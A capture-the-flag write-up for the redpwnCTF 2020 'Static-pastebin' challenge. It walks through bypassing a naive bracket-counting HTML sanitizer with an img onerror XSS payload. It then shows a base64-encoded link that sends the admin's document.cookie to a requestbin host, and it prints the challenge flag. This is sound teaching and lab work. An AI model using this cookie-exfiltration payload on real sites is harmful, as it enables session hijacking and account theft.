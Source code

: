 ## Static-pastebin :

The description of this challenge was : " I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here "

The home page of the web site was presented like this:

![CaptureVero](https://user-images.githubusercontent.com/59454895/85900597-63acc800-b800-11ea-81fa-4d3b209847fa.PNG)

There was also a way to report a link to the admin:

![OOOOOO](https://user-images.githubusercontent.com/59454895/85901979-344b8a80-b803-11ea-9027-8e13f90dacdc.PNG)


First of all i tried to put <script>alert(1);</script> to see if the site would print the number one but it didn't work and i got this :

![Capture000](https://user-images.githubusercontent.com/59454895/85898838-49251f80-b7fd-11ea-85b8-91c018a2c048.PNG)

 Here i could notice that every post was base64 encoded when i pressed the button create , i got also this confirmation from the code of the site that was dealing the posts , because as we can see there is the btoa function that encodes the text value in base64 :
 
 ```javascript
 (async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const button = document.getElementById('button');
    button.addEventListener('click', () => {
        const text = document.getElementById('text');
        window.location = 'paste/#' + btoa(text.value);
    });
})();
```

After i made the post in the site i looked inside the source again to see how the reading part was handled  and i found some interesting code :
```javascript
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}

```
Reading this code i understood two important things , first of all the value from URL is decoded from base64 using the atob function ( It will be useful when i will report the link with the payload) and our input is sanitized with the clean function , looking inside this function i could see that the writing of text was not allowed if the bracket pairs didn't match . I broke this function just adding a > to my payload :
```javascript
test"><img src=x onerror=alert("22");>
```
![Test](https://user-images.githubusercontent.com/59454895/85903016-a45b1000-b805-11ea-8b64-ee6ca162333f.PNG)

Now that I know it works locally I modified my payload in this way :  ``` test"><img src=x onerror=window.location.href='https://en96oi0edd3dm.x.pipedream.net/?a='+document.cookie;>``` . I used a requestbin to intercept the admin's cookies.


The admin needs to visit the link or we can't intercept his cookie, so I encoded all my payload in base 64 and i inserted it in the link with this way :

https://static-pastebin.2020.redpwnc.tf/paste/#dGVzdCI+PGltZyBzcmM9eCBvbmVycm9yPXdpbmRvdy5sb2NhdGlvbi5ocmVmPSdodHRwczovL2VuOTZvaTBlZGQzZG0ueC5waXBlZHJlYW0ubmV0Lz9hPScrZG9jdW1lbnQuY29va2llOz4=

The final step was to report this entire link to the admin and check the requestbin  :

![FlagStaticBin](https://user-images.githubusercontent.com/59454895/85904268-87740c00-b808-11ea-8c5e-bf24dc24d7a4.PNG)

Flag: flag{54n1t1z4t10n_k1nd4_h4rd}

